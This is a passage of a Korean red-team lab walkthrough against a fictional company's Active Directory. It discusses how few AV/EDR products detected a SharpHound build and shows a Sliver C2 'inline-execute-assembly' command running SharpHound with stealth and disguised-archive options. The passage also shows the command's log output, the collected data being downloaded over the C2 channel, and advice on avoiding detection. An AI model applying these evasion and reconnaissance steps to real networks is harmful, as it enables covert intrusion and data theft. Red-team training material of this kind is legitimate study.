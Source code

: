 위의 SharpHound 닷넷 어셈블리는 EXE 상태로 바이러스토탈에 올렸을 때 6개의 AV/EDR 솔루션들이 잡아냈다. 다행인 점은 가장 중요한 빅3(CrowdStrike, MDE, SentinelOne)이 잡아내지 않았다는 것이다. 또한, 어차피 쉘코드 상태로 메모리상에서 실행될 것이기 때문에 바이러스 토탈의 정적 분석에서 위 결과만 나와도 쓸만하다.

위험한 fork\&run 보다는 현재 슬리버 비컨 프로세스에서 바로 실행하는 `inline-execute-assembly`를 이용해 SharpHound를 실행한 뒤, LDAP 정보 수집을 한다.

```
sliver (TOUGH_BREADCRUMB) > inline-execute-assembly /root/funtimes.exe "-c DCOnly --stealth --forcesecureldap --zipfilename crashdump --zippassword test --distinguishedname DC=us,DC=rt,DC=local"

2025-01-19T10:23:08.5146955+09:00|INFORMATION|Status: 660 objects finished (+660 Infinity)/s -- Using 172 MB RAM
2025-01-19T10:23:08.5146955+09:00|INFORMATION|Enumeration finished in 00:00:00.4223998
2025-01-19T10:23:08.5459412+09:00|INFORMATION|Saving cache with stats: 20 ID to type mappings.
 0 name to SID mappings.
 0 machine sid mappings.
 8 sid to domain mappings.
 0 global catalog mappings.
2025-01-19T10:23:08.5615659+09:00|INFORMATION|SharpHound Enumeration Completed at 10:23 AM on 1/19/2025! Happy Graphing!

// 다운로드 
download 20250119085621_crashdump.zip 
```

도메인 트러스트 관계를 이용해 부모 도메인 및 다른 자식 도메인도 정보 수집을 할 수 있지만, 일단 탐지에 안걸리기 위해 현재 있는 US 도메인을 상대로 정보 수집을 진행한다.

<figure><img src="../.gitbook/assets/ou.png" alt=""><figcaption></figcaption></figure>

위에서 살펴본 것과 같이 라쿤테크의 미국 지사는 특정 도시 및 주들을 대상으로 OU를 만들고, 그 아래에 각각 account, computers, groups 등의 OU를 넣는 형식으로 액티브 디렉토리 구조를 짰다. 장악한 JohnDoe.Smith 유저의 경우도 Distinguished Name이 `CN=JOHNDOE.SMITH,OU=ACCOUNTS,OU=HOUSTON,DC=US,DC=RT,DC=LOCAL` 로 나왔다.


